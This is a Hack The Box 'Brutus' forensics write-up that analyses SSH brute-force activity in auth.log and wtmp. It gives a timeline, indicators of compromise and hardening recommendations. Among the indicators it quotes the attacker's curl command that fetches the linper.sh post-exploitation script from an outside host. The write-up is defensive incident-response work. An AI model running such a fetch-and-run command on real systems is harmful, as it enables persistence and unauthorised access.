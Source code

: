 # HTB: Brutus - Forensic Analysis Writeup

![HTB Brutus](https://labs.hackthebox.com/storage/challenges/b7bb35b9c6ca2aee2df08cf09d7016c2.png)

## Overview

This writeup details the forensic investigation performed on the Hack The Box challenge **Brutus**. The analysis focuses on SSH authentication events, brute-force login activity, and post-compromise attacker behavior by reviewing `auth.log` and `wtmp` files extracted from a compromised Linux host.

---

## Box Information

| Attribute     | Value                  |
|---------------|------------------------|
| **Name**      | Brutus                 |
| **OS**        | Linux                  |
| **Category**  | Forensics / Incident Response |
| **Difficulty**| Medium                 |
| **Release**   | 2024                   |
| **Author**    | HTB Team               |

---

## Collected Evidence

The following log files were provided for analysis:

- **`auth.log`** – Syslog-format authentication log tracking logins, failures, and related events.
- **`wtmp`** – Binary session log that records user logins and logouts.

Both files were acquired from the target system post-compromise.

---

## Tools Used

- Command-line text utilities: `cut`, `grep`, `sort`, `uniq`, `rev`
- `last` – for parsing and viewing `wtmp`
- `head`, `less` – for manual log inspection

---

## Timeline of Events

| Date & Time         | Event Description                                      |
|---------------------|-------------------------------------------------------|
| Mar 6, 06:18:01     | CRON job executed by `confluence`                     |
| Mar 6, 06:19:54     | Successful root SSH login from `203.101.190.9`        |
| Mar 6, 06:31:33-42  | Burst of failed SSH logins; brute-force activity      |
| Mar 6, 06:31:40     | Successful root SSH login from `65.2.161.68`          |
| Mar 6, 06:32:44     | Successful root SSH login from `65.2.161.68`          |
| Mar 6, 06:37:34     | Successful `cyberjunkie` SSH login from `65.2.161.68` |

---

## Analysis

### Log File Time Discrepancies

- `auth.log` records the initiation of SSH authentication attempts.
- `wtmp` logs the beginning of user sessions (only after successful authentication).
- This explains the observed 1-second differences in the same event between the two logs.

---

### Log Activity Summary

**Top Programs by Log Activity:**
```bash
cat auth.log | cut -d' ' -f 6 | cut -d '[' -f 1 | sort | uniq -c | sort -nr
```
```
257 sshd
104 CRON
  8 systemd-logind
  6 sudo:
  3 groupadd
  2 usermod
  2 systemd:
  1 useradd
  1 passwd
  1 chfn
```
- High SSH activity suggests systematic brute-force attempts.
- User management commands indicate new accounts or privilege escalation steps.

---

### Brute-Force SSH Attempts

**Failed Logins:**
```bash
cat auth.log | grep Failed | cut -d: -f4 | cut -d' ' -f5- | rev | cut -d' ' -f6- | rev | sort | uniq -c | sort -nr
```
```
12 invalid user server_adm
11 invalid user svc_account
10 invalid user admin
 9 backup
 6 root
```
- The high concentration of attempts on different usernames within seconds confirms automated brute-force tools were used.

---

### Successful SSH Logins

**Accepted Passwords:**
```bash
cat auth.log | grep "Accepted password"
```
```
Mar  6 06:19:54 - root login from 203.101.190.9
Mar  6 06:31:40 - root login from 65.2.161.68
Mar  6 06:32:44 - root login from 65.2.161.68
Mar  6 06:37:34 - cyberjunkie login from 65.2.161.68
```
- The attacker succeeded in logging in as `root` and later as `cyberjunkie` from `65.2.161.68`, immediately after the brute-force burst.

---

### Indicators of Compromise (IoCs)

- **Malicious IP Address:** `65.2.161.68` (primary attack source)
- **Compromised Accounts:** `root`, `cyberjunkie`
- **Attack Vector:** SSH brute-force followed by successful password authentication
- **Suspicious Activity:** Downloaded and executed `/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh` (potential post-exploitation script)

---

## Observations

- **Automation:** The attacker used scripts or tools to automate SSH login attempts for common usernames.
- **Persistence:** Creation/use of a secondary user (`cyberjunkie`) for persistent access.
- **Post-exploitation:** The use of `linper.sh` suggests attempts at privilege escalation or enumeration.

---

## Recommendations

- **Disable direct SSH login for root**:
    ```
    PermitRootLogin no
    ```
- **Enforce key-based SSH authentication**:
    ```
    PasswordAuthentication no
    ```
- **Limit authentication attempts**:
    ```
    MaxAuthTries 3
    ```
- **Deploy fail2ban or similar** to block brute-force attempts.
- **Rotate all passwords** for affected or exposed accounts.
- **Audit for persistence**: Review for new/unknown user accounts.
- **Perform full forensic imaging** of memory and disk for deeper investigation.

---

## Conclusion

The investigation confirms a brute-force SSH attack from `65.2.161.68` led to compromise of the `root` and `cyberjunkie` accounts. The attacker established persistence and ran post-exploitation scripts due to insufficient SSH hardening. Implementation of best practices for SSH security and intrusion prevention is strongly recommended to prevent future incidents.

---
## Pwned
[Brutus](https://labs.hackthebox.com/achievement/sherlock/1390647/631)

**Author:** Krish Patel  
**Date:** June 2, 2025 
**Tags:** `hackthebox` `forensics` `incident-response` `ssh` `bruteforce` `linux`
